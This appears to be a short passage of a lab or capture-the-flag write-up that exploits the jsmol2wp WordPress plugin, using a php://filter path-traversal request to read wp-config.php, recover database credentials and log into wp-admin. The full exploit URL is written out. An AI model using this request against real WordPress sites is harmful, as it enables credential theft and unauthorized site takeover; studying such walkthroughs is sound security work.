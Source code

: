-> Following the PoC:

```
http://localhost:8080/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```

-> We found a database username and password:

![](attachments/Pasted%20image%2020250625152733.png)

-> Logging into /wp-login using these credentials, we get access to /wp-admin
